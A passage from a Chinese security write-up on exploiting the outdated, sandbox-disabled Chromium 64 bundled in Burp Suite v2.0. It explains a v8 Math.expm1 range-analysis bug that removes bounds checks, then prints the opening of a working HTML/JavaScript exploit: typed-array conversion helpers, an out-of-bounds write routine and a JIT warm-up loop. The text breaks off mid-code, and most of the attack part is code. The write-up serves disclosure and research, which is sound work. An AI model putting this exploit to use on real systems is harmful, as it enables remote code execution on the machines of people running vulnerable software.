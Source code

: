 从进程运行参数分析得知，Chromium 进程以 headless 模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。

三、漏洞利用
------

Chromium 组件的历史版本几乎都存在着 1Day 漏洞风险，特别是在客户端软件一般不会维护升级 Chromium 版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite v2.0 内置的 Chromium 版本为 64.0.3282.24，该低版本 Chromium 受到多个历史漏洞影响，可以通过 v8 引擎漏洞执行 shellcode 从而获得 PC 权限。

以 Render 功能演示，利用 v8 漏洞触发 shellcode 打开计算器（此处感谢 Sakura 提供漏洞利用代码）

这个漏洞没有公开的 CVE ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。  
该漏洞的 Root Cause 是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber, NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致 JIT 优化时，错误的将边界检查 CheckBounds 移除，造成了 OOB 漏洞。

```
<html>
<head></head>
</body>
<script>
function pwn() {
    var f64Arr = new Float64Array(1);
    var u32Arr = new Uint32Array(f64Arr.buffer);

    function f2u(f) {
        f64Arr[0] = f;
        return u32Arr;
    }

    function u2f(h, l)
    {
        u32Arr[0] = l;
        u32Arr[1] = h;
        return f64Arr[0];
    }

    function hex(i) {
        return "0x" + i.toString(16).padStart(8, "0");
    }

    function log(str) {
        console.log(str);
        document.body.innerText += str + '\n';
    }

    var big_arr = [1.1, 1.2];
    var ab = new ArrayBuffer(0x233);
    var data_view = new DataView(ab);

    function opt_me(x) {
        var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        big_arr = [1.1, 1.2];
        ab = new ArrayBuffer(0x233);
        data_view = new DataView(ab);

        let obj = {
            a: -0
        };
        let idx = Object.is(Math.expm1(x), obj.a) * 10;

        var tmp = f2u(oob_arr[idx])[0];
        oob_arr[idx] = u2f(0x234, tmp);
    }
    for (let a = 0; a < 0x1000; a++)
        opt_me(0);
```